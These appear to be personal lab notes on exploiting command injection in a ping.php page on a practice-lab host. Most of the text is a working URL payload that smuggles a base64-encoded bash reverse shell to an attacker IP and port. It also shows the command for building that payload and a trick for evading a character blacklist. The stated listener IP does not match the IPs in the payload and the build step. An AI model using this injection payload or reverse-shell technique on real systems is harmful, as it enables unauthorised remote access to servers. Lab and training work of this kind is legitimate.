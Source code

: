 - To get reverse shell from command injection in `monitoring.inlanefreight.local/ping.php` it is required to build request
- f.e to recieve rev shell the next payload will be good but it works only for 10.10.15.188:4444 listener. 
	- to create for new ip/port, base64 should containt `+`
```
/ping.php?ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<YmFzaCAtaSAgID4mIC9kZXYvdGNwLzEwLjEwLjE1LjE4NS80NDQ0ICAgMD4mMQ==)
```
- Steps to create 
```
echo -n 'bash -i >& /dev/tcp/10.10.15.157/4444 0>&1' | base64 > r  
```
- but put some spaces in a place where base64 generates `+`  because this character is blacklisted

